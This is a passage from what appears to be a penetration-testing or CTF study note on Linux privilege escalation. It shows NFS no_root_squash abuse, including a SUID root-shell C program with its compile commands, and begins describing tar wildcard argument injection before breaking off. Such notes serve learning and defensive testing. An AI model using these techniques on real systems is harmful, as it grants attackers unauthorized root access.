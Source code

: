 -----------------------------------------------------------------

**Privilege Escalation: NFS**

finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

```bash
cat /etc/exports
```

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.

```bash
showmount -e 10.10.2.15
```

check the share that you have executable rights on target machine

add this below to the mounted directory

```bash
#include<unistd.h>
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
gcc nfs.c -o nfs -w
chmod +s nfs
```
-----------------------------------------------------

The issue can be manifested by using specific options in chown, tar, rsync etc. By using specially crafted filenames, an attacker can inject arbitrary arguments to shell commands run by other users – root as well.

**Privilege escalation tar**

Running 
```bash
tar cf archive.tar *
``` 
on a folder with these files seems pretty straightforward and benign.
The problem arises if the user created a couple of fake files and a shell script that contains any arbitrary command.
